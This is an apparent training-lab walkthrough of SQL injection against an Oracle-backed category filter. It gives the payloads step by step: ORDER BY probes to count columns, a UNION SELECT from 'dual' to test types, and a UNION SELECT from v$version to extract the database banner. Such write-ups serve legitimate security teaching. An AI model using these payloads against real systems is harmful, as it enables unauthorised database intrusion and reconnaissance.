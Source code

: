 #+title: SQL injection attack, querying the database type and version on Oracle

* About
sql injection on ~category~ filter

** End Goal
Display database version string


* Steps
** Step 1
First find out how many columns are there in vulnerable sql query

#+begin_src sql
'ORDER BY 1 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 2 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 3 --
#+end_src
500 error

so column = 2

** Step 2
Now find out what type data those columns are using
#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src

#+begin_quote
But this will give an error. Since this lab is using ~Oracle~ database system. In ~Oracle~ database we have to select at least one table with ~SELECT~ command. But we don't know any table in this lab database. But we can use the default table of ~Oracle~ database called ~dual~
#+end_quote

#+begin_src sql
'UNION SELECT 'abc', NULL FROM dual --
#+end_src
200 success. so column1 supports string type data

#+begin_quote
Now print the database version string value in this column to solve the lab
#+end_quote

* Solution
#+begin_src sql
'UNION SELECT banner, NULL FROM v$version --
#+end_src
